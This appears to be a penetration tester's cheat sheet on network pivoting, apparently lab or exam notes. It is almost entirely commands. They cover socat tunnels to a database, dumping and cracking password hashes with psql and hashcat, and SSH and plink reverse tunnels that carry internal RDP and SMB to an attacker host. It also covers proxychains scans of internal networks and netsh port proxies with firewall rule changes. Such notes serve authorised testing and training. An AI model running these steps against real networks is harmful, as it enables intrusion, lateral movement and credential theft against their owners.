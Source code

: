 # Tunneling

## Port forwarding

### Socat

Run a Socat tunnel on the gateway to the database:
```
gateway$ socat -ddd TCP-LISTEN:2345,fork TCP:DbHostIP:5432
```
and connect to the DB directly from Kali (and retrieve password hashes):
```
kali$ psql -h GatewayIP -p 2345 -U postgres
> \l
> \c mydb
> select table_schema,table_name from information_schema.tables where table_name like '%user%;
> \o hashes.txt
> select * from user_table
> \o
> \q
```
Crack the hashes:
```
kali$ hashcat -m 12001 hashes.txt /usr/share/wordlists/fasttrack.txt # Atlassian hashcat code: hashcat -h
kali$ vim afterhashcat.txt
kali$ tr -d ' ' hashes.txt | awk -F'|' '(NR >2) {print $2, $17}' > loginpass.txt
kali$ vim loginpass.txt # clean ?
kali$ awk -F' ' '{a[$1]=a[$1]?a[$1]":"$2:$2":"$1;}END{for (i in a) print a[i];}' loginpass.txt afterhashcat.txt | awk -F ':' '$3 {print $1, $3}' > final.txt
```

Notes:
- Confluence config file: `/var/atlassian/application-data/confluence/confluence.cfg.xml`
- Awk tips: https://www.theunixschool.com/2012/06/awk-10-examples-to-group-data-in-csv-or.html

### Ssh

IpAttacker <--|--> IpDmzOut <--DMZ--> IpDmzIn <--|--> IpDeepIn

```
python3 -c 'import pty; pty.spawn("/bin/sh")' # python3 -c 'import pty; pty.spawn(["env","TERM=xterm-256color","/bin/bash","--rcfile", "/etc/bash.bashrc","-i"])'
nc -zv -w 1 $IP $Port # listen, verbose, timeout 1sec

IpDmzOut$ ssh -N -L 0.0.0.0:$PortDmzOut:$IpDeepInternal:$PortDeepInternal user@$IpDmzIn # from $IpDmzOut: out | dmz | in
Kali$ smbclient -p $PortDmzOut -L //$IpDmzOut/ -U someuser --password=somepass

IpDmzOut$ ssh -N -D 0.0.0.0:$PortDmzOut user@$IpDmzIn
Kali$ vi /etc/proxychains4.conf
    socks5 $IpDmzIn $PortDmzOut
Kali$ proxychains smbclient -L //$IpDeepInternal/ -U someuser --password=somepass
Kali$ proxychains nmap -vvv -sT --top-ports=20 -Pn $IpDeepInternal

ssh -N -R localhost:2345:$IpDmzIn:$PortDmzIn user@IpAttacker

```

### Windows

#### Ssh.exe

```
Windows PS> ssh.exe -N -R $ListeningPort user@$IpAttacker
Kali$ ss -lntpu # check
Kali$ vim /etc/proxychains4.conf
    socks5 127.0.0.1 $ListeningPort
Kali$ proxychains mycommand myoptions
```

#### Plink

```
KaliRshell$ cmdprompt> C:\path\to\plink.exe -ssh -l kaliuser -pw somepass -R 127.0.0.1:9833:127.0.0.1:3389 $IpAttacker
KaliRshell$ cmdprompt> KaliNormalShell$ ss -ntplu # check
Kali$ xfreerdp /u:rdp_user /p:rdp_pass /v:127.0.0.1:9833
```

#### Netsh

```
> netsh interface portproxy add v4tov4 listenport=2222 listenaddress=$IpDmzOut connectport=22 connectaddress=$IpDmzIn
> netstat -anp TCP | find "2222"
> netsh interface portproxy show all
> netsh advfirewall firewall add rule name="my_rule_name" protocol=TCP dir=in localip=$IpDmzOut localport=2222 action=allow
$ ssh user@$IpDmzOut -p2222
> netsh advfirewall firewall delete rule name="my_rule_name"
> netsh interface portproxy del v4tov4 listenport=2222 listenaddress=$IpDmzOut
> netsh interface portproxy show all
```



